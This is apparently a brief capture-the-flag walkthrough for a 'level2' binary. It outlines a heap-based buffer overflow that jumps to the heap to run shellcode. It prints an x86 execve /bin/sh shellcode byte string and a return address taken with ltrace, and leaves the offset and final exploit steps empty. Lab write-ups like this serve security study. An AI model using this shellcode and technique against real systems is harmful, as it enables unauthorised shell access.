


# Walkthrough

> **The Goal:**make buffer overflow to launch a shell pogram, the idea is to exploit the heap because the stack it protected 
> Filled the buffer then jump to the heap  address to executed the shellcode

1. Get the offset 

2. [Shellcode](http://shell-storm.org/shellcode/files/shellcode-575.html)
  `\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`

3. Get the return Address
I used `ltrace ./level2` to get the return address of strdup `0x0804a008` 

4. Exploit the buffer overflow 

